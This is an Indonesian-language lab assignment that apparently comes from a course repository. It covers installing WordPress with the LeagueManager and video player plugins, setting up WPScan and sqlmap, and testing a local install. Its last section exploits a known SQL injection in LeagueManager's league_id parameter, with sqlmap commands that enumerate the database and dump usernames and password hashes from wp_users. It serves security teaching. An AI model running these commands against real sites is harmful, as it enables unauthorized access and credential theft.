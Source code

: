# Tugas 2

## Instalasi Wordpress
1. Download Wordpress dari laman [Wordpress](https://wordpress.org/)  
![download wordpress](download_wordpress.PNG)
2. Ekstrak file wordpress yang sudah kita download lalu letakkan di folder root web di komputer kita. Contoh apabila menggunakan apache di windows folder root terdapat di folder htdocs dan linux terdapat di folder /var/www/html.
3. Siapkan database mysql untuk wordpress kita. Contohnya kita buat database dan kita beri nama wordpress
![database](database.PNG)
3. Akses wordpress yang sudah kita letakkan di folder root web dengan browser
4. Saat pertama kali, kita akan diminta untuk meilih bahasa
![memilih bahasa](1_pilih_bahasa.PNG)
5. Setelah memilih bahasa kita akan diminta konfigurasi database
![setting database](3_setting_database_wordpress.PNG)
6. Selanjutnya kita akan diminta untuk mengisi detil website kita
![detail web](4_isi_data_situs.PNG)
7. Instalasi selesai
![instalasi selesai](5_selesai_installasi_wordpress.PNG)
8. Setelah instalasi selesai apabila kita ingin masuk ke dashboard admin, kita bisa mengakses ke endpoint wp-login. contoh "http://alamatwordpress.com/wp-login.php"
![login](wp-login.PNG)
9. Apabila berhasil login kita akan masuk ke dashboard wordpress
![dashboard wordpress](7_dashboard.PNG)

## Instalasi Plugin
### Instalasi LeagueManager
1. Cari leaguemanager.
![cari leaguemanager](8_pencarian_plugin_leaguemanager.PNG)
2. Pilih leaguemanager dan akan keluar popup dan pilih **Laman Plugin WordPress.org**
![leaguemanager popup](9_leaguemanager_popup.PNG)
3. Lalu kita akan diarahkan ke laman plugin pada wordpress. Pilih advanced view pada bagian kanan bawah.
![kunjungi dashboard](10_dashboard_league_manager.png)
4. Pada halaman baru yang muncul, pilih versi plugin yang terletak di bawah halaman.
![pilih versi](11_select_version_leaguemanager.png)
5. Selanjutnya download plugin akan dimulai.
6. Setelah download selesai, kita unggah plugin ke situs kita.
![upload plugin](12_upload_league_manager.PNG)
7. Lalu aktifkan plugin.
![aktifkan plugin](13_aktifkan_league_manager.PNG)
8. Instalasi plugin akan dimulai.
![instalasi plugin](14_instalasi_league_manager.PNG)

### Instalasi WordPress Video Player
1. Cari video player.
![cari videoplayer](15_pencarian_video_player.PNG)
2. Pilih WordPress Video Player dan akan keluar popup dan pilih **Laman Plugin WordPress.org**
![player popup](16_video_player_popup.PNG)
3. Lalu kita akan diarahkan ke laman plugin pada wordpress. Pilih advanced view pada bagian kanan bawah.
![kunjungi dashboard](17_dashboard_video_player.png)
4. Pada halaman baru yang muncul, pilih versi plugin yang terletak di bawah halaman.
![pilih versi](18_select_version_video_player.PNG)
5. Selanjutnya download plugin akan dimulai.
6. Setelah download selesai, kita unggah plugin ke situs kita.
![upload plugin](19_unggah_plugin_player.PNG)
7. Lalu aktifkan plugin.
![aktifkan plugin](20_aktifkan_plugin_player.PNG)
8. Instalasi plugin akan dimulai.
![instalasi plugin](21_instalasi_player.PNG)

Apabila plugin telah terpasang tampilan laman plugin akan seperti dibawah ini.
![plugin terpasang](22_plugin_berhasil_diinstal.png)

## Instalasi Tools Penetrasi
### Instalasi WPSCAN  
1. Pastikan komputer kita sudah terinstall git. Apabila belum kita dapat menginstalnya dengan mengetikkan `sudo apt-get install git`
2. Install dependency dengan mengetikkan `sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev`
![install-libcurl](install-libcurl14.png)  
3. Clone repo wpscan dengan mengetikkan `git clone https://github.com/wpscanteam/wpscan.git`
![clone-wpscan](clone-wpscan.png)
4. Install ruby dengan mengetikkan `sudo apt-get intsall ruby` tapi, karena saya menggunakan Ubuntu 16.04 bisa cukup dengan mengetikkan `sudo apt install ruby`  
![install-ruby](install-ruby.png)  
5. Masukke folder wpscan yang sudah kita clone
6. Install bundler dengan mengetikkan `sudo gem install bundler && bundle install --without test`
![install-gem](install-gem.png)  
### Instalasi SQLMAP
Ada 2 cara untuk menginstall sqlmap
1. clone github dari sqlmap dengan mengetikkan `git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev` **sqlmap-dev** disini, saya ingin clone folder dari github tersebut ke folder bernama **sqlmap-dev**  
![download-sqlmap](download-sqlmap.png)  
Setelah tahap clone, pindah direktori pada folder sqlmap anda, lalu bisa dijalankan dengan mengetikkan `python sqlmap.py`  
2. Install langsung dengan mengetikkan `sudo apt-get install sqlmap`  
![install-sqlmap](install-sqlmap.png)  

## Uji Penetrasi
### Scanning menggunakan wpscan
1. Scanning
![scanning](scanning.png)
2. Hasil Scanning
![hasil scanning](hasil_scanning.png)
## Exploit menggunakan sqlmap
### LeagueManager
Berdasarkan tautan https://www.exploit-db.com/exploits/37182/ , Pada plugin leaguemanager versi 3.9.11 terdapat bug, salah satunya pada parameter league_id yang tidak diamankan sehingga dimungkinkan sql injection.
![hasil eksploit](sqlmap_leagumemanager.png)
1. Setelah diketahui terdapat variabel yang bisa dieksploit, kita bisa menggunakan sql map untuk database listing. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql --dbs`
![hasil dbs listing](hasil_list_dbs.png)
2. Selanjutnya kita dapat melakukan table listing. Kita coba list semua table pada database wordpress karena kemungkinan database situs disimpan disitu. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress --tables`
![hasil tables listing](hasil_list_tables.png)
3. Selanjutnya kita akan melakukan listing ke tabel wp_users karena disitu kemungkinan berisi login informasi. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress -T wp_users --columns`
![hasil list columns](hasil_list_columns.png)
4. Dump isi table wp_users. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress -T wp_users -C user_login,user_pass --dump`
![hasil dump users](hasil_dump_users.png)
